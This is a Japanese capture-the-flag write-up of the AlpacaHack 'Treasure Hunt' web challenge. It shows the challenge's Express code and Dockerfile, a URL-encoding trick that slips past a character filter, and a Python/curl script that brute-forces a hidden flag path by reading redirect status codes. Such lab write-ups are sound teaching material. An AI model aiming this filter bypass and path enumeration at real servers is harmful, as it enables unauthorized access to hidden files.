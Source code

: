 # [AlpacaHack Round7(web)](https://alpacahack.com/ctfs/round-7)

卒業論文を進めないといけないので一問だけ解いて退散しようと思っていたらめっちゃ時間かかってしまったので供養します.  
時間ギリギリで解法がわかったものの, 実装で沼っていました.

## Treasure Hunt(71 solves)

### Description
> Can you find a treasure?

### Consideration
<details><summary>渡されたファイル群</summary>

```bash
./
├── compose.yaml
└── web/
    ├── Dockerfile
    ├── index.js
    ├── package-lock.json
    ├── package.json
    └── public/
        ├── alpaca
        ├── book
        ├── crown
        ├── drum
        ├── duck
        ├── key
        ├── pen
        ├── tokyo/
        │   └── tower
        └── wind/
            └── chime
```

</details>

<details><summary>index.js</summary>

```javascript:index.js
import express from "express";

const html = `
<h1>Treasure Hunt 👑</h1>
<p>Can you find a treasure?</p>
<ul>
  <li><a href=/book>/book</a></li>
  <li><a href=/drum>/drum</a></li>
  <li><a href=/duck>/duck</a></li>
  <li><a href=/key>/key</a></li>
  <li><a href=/pen>/pen</a></li>
  <li><a href=/tokyo/tower>/tokyo/tower</a></li>
  <li><a href=/wind/chime>/wind/chime</a></li>
  <li><a href=/alpaca>/alpaca</a></li>
</ul>
`.trim();

const app = express();

app.use((req, res, next) => {
  res.type("text");
  if (/[flag]/.test(req.url)) {
    res.status(400).send(`Bad URL: ${req.url}`);
    return;
  }
  next();
});

app.use(express.static("public"));

app.get("/", (req, res) => res.type("html").send(html));

app.listen(3000);
```

</details>

<details><summary>Dockerfile</summary>

```text
FROM node:22.11.0

WORKDIR /app

COPY public public

# Create flag.txt
RUN echo 'Alpaca{REDACTED}' > ./flag.txt

# Move flag.txt to $FLAG_PATH
RUN FLAG_PATH=./public/$(md5sum flag.txt | cut -c-32 | fold -w1 | paste -sd /)/f/l/a/g/./t/x/t \
    && mkdir -p $(dirname $FLAG_PATH) \
    && mv flag.txt $FLAG_PATH

COPY package.json package-lock.json ./
RUN npm install

COPY index.js .

USER 404:404
CMD node index.js
```

</details>

何を見ればflagが取得できるかはDockerfileにかいてあります.  
```text
FLAG_PATH=./public/$(md5sum flag.txt | cut -c-32 | fold -w1 | paste -sd /)/f/l/a/g/./t/x/t
```
flag.txtの中身のハッシュ値をとって一文字ずつディレクトリとして`/f/l/a/g/./t/x/t`と繋げています.  

`56bde24b2b0fd23d0b032c8aa128a86c -> 5/6/b/d/e/2/4/b/2/b/0/f/d/2/3/d/0/b/0/3/2/c/8/a/a/1/2/8/a/8/6/c`
`-> 5/6/b/d/e/2/4/b/2/b/0/f/d/2/3/d/0/b/0/3/2/c/8/a/a/1/2/8/a/8/6/c/f/l/a/g/./t/x/t`  
のような感じ  
だから, `http://localhost:3000/5/6/b/d/e/2/4/b/2/b/0/f/d/2/3/d/0/b/0/3/2/c/8/a/a/1/2/8/a/8/6/c/f/l/a/g/./t/x/t`  
にアクセスできればflagが取れるはずです.  

が、index.jsの22行目のif文によって'f', 'l', 'a', 'g'がURL中にあると400が返されてしまう. - (1)
```javascript
if (/[flag]/.test(req.url)) {
    res.status(400).send(`Bad URL: ${req.url}`);
    return;
}
```
さらに, 中身の知らないflag.txtのハッシュ値なのでパスもわからない. - (2)  
ここで, `http://localhost:3000/tokyo`を試すと301が返ってきます（`http://localhost:3000/tokyo/`にリダイレクトされる）.  
一方, 存在しないパス（`http:/localhost:3000/hoge`みたいな）を指定すると401が返ってきます.  

(1)は'f', 'l', 'a', 'g'をそれぞれURL Encodeされたまま送ればよい.  
(2)は返ってくるステータスコードで存在するパスかどうか判定すれば良い.  

ということでPythonのRequestsライブラリを用いてソルバを書いたのですが, (1)を満たすコードを一生かけずに時間を溶かしてしまいました.  
おそらくRequestsライブラリではURL Encodeされたままリクエストを送ることができない...?  
ということでpython内でシェルを呼び出す愚行をしました. 「shell script最高！ちゃんと勉強しようね！」ってサークルの某先輩に言われ続けてる気がした...  

以下, ソルバです

```python
import subprocess
import itertools

base_url = "http://localhost:3000"
depth = 40
characters = ["%61", "b", "c", "d", "e", "%66", "%67", "%6c", "%74", "%78", "0",
              "1", "2", "3", "4", "5", "6", "7", "8", "9"]

path = ""
for i in range(depth):
    for dirs in itertools.product(characters):
        tmp = "/".join(dirs)
        url = f"{base_url}/{path}/{tmp}"
        cmd = ["curl", "-I", url]
        res = subprocess.run(cmd, capture_output=True, text=True).stdout
        if "301" in res:
            print(res)
            path = f"{path}/{tmp}"
        else:
            continue

print(path)
```
シェル実行した結果をstringで受け取るのに苦労したのと, `if res in '301'`になっていたのに気づかない, 明らかに集合論ができない人になっていたので更に時間を溶かしました
